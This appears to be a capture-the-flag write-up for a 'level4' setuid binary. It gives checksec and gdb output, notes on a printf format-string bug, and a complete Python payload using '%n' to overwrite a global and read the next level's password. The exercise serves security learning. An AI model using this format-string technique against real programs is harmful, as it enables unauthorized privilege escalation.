 level4 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

level4 rights:
```Shell
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```

Obtain with gdb
```Shell
0x0804848d <+54>:    mov    0x8049810,%eax
0x08048492 <+59>:    cmp    $0x1025544,%eaxx
```

n function:
-buffer 520 bytes
-fgets(buffer)
-p function:
    printf(buffer)
-m compare with 0x1025544 -> print .pass

find m address
find buffer position

m address is 0x8049810
buffer at 12th position
python -c 'print("\x10\x98\x04\x08" + "%16930112d%12$n")' > /tmp/input4
cat /tmp/input4 | ./level4 (no need to keep stdin open)